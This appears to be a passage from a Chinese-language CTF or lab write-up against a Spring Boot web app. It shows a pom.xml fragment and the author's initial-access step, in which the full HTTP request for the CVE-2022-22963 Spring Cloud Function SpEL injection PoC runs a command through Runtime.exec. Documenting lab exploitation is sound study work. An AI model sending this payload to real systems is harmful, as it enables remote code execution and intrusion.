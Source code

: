 ```xml
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

搜“spring-boot-starter-parent 2.6.5 exploit”能看到这几篇文章：
> <https://www.fastly.com/jp/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022>  
> <https://codetinkering.com/spring4shell-vulnerability-fix>



## Initial Access

### PoC (CVE-2022-22963)

本来以为是CVE-2022-22965，用msf试了下不行的样子。

用Burp试了一下上面的文章里CVE-2022-22963的PoC，然后又目录遍历看了下，确认有成功创建 `/tmp/pwned`。
```http
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Length: 1

.
```
